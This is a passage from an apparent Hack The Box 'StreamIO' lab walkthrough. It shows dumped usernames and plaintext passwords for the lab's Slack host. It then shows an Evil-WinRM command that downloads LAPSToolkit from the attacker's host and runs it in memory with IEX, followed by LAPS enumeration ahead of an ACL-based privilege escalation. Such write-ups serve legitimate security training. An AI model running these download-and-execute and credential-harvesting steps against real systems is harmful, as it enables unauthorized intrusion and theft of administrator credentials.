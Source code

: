 ![picture 58](/assets/images/7a4f5d3520410262f124973acf8788b98b20c5ca6a15045d0f2b7d0b6e195730.png)  

```
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```

## Checking LAPS 

Winpeass showed that there is LAPS active, so let's use [LAPSToolkit](https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/master/LAPSToolkit.ps1) to enumerate that:
```
*Evil-WinRM* PS C:\> (new-object system.net.webclient).downloadstring('http://10.10.14.6/tools/LAPSToolkit.ps1') | IEX
*Evil-WinRM* PS C:\> Get-LAPSComputers

ComputerName    Password Expiration
------------    -------- ----------
DC.streamIO.htb          09/28/2022 15:33:39


*Evil-WinRM* PS C:\> Find-LAPSDelegatedGroups

OrgUnit                                  Delegated Groups
-------                                  ----------------
OU=Domain Controllers,DC=streamIO,DC=htb streamIO\CORE STAFF

## Checking Object ACLs on CORE STAFF
```
So we wan't a user that has `CORE STAFF` group assigned to it in order to read Administrator password. Group is however empty, but let's check ACLs if we can make any changes to it.